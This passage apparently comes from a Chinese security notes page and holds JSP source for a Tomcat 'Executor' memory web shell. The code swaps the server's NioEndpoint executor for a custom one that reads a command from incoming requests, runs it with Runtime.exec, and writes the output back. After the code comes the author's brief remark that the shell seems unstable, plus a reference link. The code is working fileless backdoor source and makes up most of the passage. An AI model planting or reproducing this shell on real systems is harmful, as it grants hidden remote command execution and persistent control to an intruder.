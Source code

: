 ```jsp
            String cmd = getRequest();
            if (cmd.length() > 1) {
                try {
                    Runtime rt = Runtime.getRuntime();
                    Process process = rt.exec(cmd);
                    InputStream in = process.getInputStream();

                    InputStreamReader resultReader = new InputStreamReader(in);
                    BufferedReader stdInput = new BufferedReader(resultReader);
                    String s = "";
                    String tmp = "";
                    while ((tmp = stdInput.readLine()) != null) {
                        s += tmp;
                    }
                    if (s != "") {
                        getResponse(s);
                    }
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }
    }
%>

<%
    NioEndpoint nioEndpoint = (NioEndpoint) getStandardService();
    ThreadPoolExecutor exec = (ThreadPoolExecutor) getField(nioEndpoint, "executor");
    threadexcutor exe = new threadexcutor(exec.getCorePoolSize(), exec.getMaximumPoolSize(), exec.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, exec.getQueue(), exec.getThreadFactory(), exec.getRejectedExecutionHandler());
    nioEndpoint.setExecutor(exe);
%>
```

![image-20230204170329107](../.gitbook/assets/image-20230204170329107.png)

感觉这个executor马不是很稳定。。。

参考：[Executor内存马的实现 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11593)


